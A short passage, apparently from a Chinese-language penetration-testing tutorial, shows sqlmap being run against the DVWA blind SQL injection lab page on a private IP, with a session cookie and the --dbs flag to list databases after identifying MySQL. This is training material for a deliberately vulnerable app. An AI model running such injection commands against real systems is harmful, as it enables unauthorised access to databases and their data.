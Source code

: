 ![show-version](../imgs/wm_199.png)

我们看到它给我们整个网站搭建所使用的平台以及相应的版本号，我们得到使用的是 MySQL 数据库。

在上面的命令之上我们添加 `--dbs` 参数，来攻击数据库，查看有哪些数据库：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc" --dbs
```

![show-dbs](../imgs/wm_200.png)
